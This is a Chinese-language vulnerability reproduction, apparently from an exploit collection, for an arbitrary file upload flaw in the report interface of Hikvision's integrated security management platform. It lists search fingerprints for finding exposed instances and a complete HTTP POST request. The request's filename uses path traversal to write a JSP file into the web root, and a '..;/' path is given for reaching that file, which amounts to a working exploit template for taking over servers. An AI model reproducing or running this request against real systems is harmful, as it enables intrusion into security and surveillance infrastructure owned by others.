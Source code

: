 # Hikvision 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

Hikvision 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](images/202208241341481.png)

```
WEB-INF/classes/com/Hikvision/svm/controller/ExternalController.class
```

![image-20230828163755020](images/image-20230828163755020.png)

```
WEB-INF/classes/com/Hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![image-20230828163809686](images/image-20230828163809686.png)

构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/Hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163835117](images/image-20230828163835117.png)

```
/portal/ui/login/..;/..;/new.jsp
```

![image-20230828163848482](images/image-20230828163848482.png)